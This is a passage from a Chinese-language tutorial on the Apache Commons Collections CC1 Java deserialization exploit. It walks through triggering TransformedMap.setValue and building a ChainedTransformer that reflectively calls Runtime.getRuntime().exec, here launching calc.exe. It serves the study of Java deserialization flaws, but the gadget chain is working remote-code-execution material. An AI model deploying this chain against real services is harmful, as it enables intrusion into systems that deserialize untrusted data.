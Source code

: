 6. 最终找到方法：
    ![image-20230405164915846](image-20230405164915846.png)

    获得 `EntrySetIterator` 需要 `EntrySet` ，而获得 `EntrySet` 需要 `AbstractInputCheckedMapDecorator` 的 `entrySet()` 方法，而 `TransformedMap` 实现了 `AbstractInputCheckedMapDecorator`，显然可以调用该方法。至此“如何执行命令”的问题解决。

7. 总结一下：
    **`TransformedMap.entryset().iterator().next()` 获取到 `MapEntry` ，然后调用其方法 `setValue("")` 即可。**

8. **执行命令的代码（中介的一部分）：**

    ```java
    HashMap<String, String> hashMap = new HashMap<>();
    hashMap.put("1", "随便");
    TransformedMap<String, String> transformedMap = TransformedMap.transformingMap(hashMap, null, 含有恶意代码的 InvokerTransformer);
    transformedMap.entrySet().iterator().next().setValue("123");
    ```

#### 3.6.2 如何构造恶意（代码）的 `InvokerTransformer` - （中介的另一部分）

1. 根据 Java 的 RCE，最基本的肯定是想要执行：`Runtime.getRuntime().exec()`。但是 `Runtime` 类不可被序列化，因此反序列化调用 `readObject()` 时就拿不到 `Runtime` 对象，从而无法执行恶意代码。

2. 思路：

    1. 既然无法直接拿到，那么就通过反射获取到字节码文件。
    2. 再通过字节码文件和反射依次执行 `getRuntime()` 的 `exec()` 方法。

3. 首先对于第一步，就用 `ConstantTransformer` 来实现：
    ```java
    // 注意这里创建的是类的字节码，最终相当于用 `InvokerTransformer` 的反射来调用反射，从而调用 exec()
    new ConstantTransformer(Runtime.class);
    ```

4. 第二步，要通过反射调用方法的话，就需要在创建 `InvokerTransformer(final String methodName, final Class<?>[] paramTypes, final Object[] args)` 时，指定方法名，方法参数的类型和具体参数内容。
    ```java
    // getMethod 一定要
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
    // 通过反射创建了反射的方法，因此还得通过反射的 invoke() 来执行
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    ```
    
6. 最终，将这些转换器用 `ChainedTransformer` 进行整合，得到**最终**的恶意转换器链如下：

    ```java
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    ```
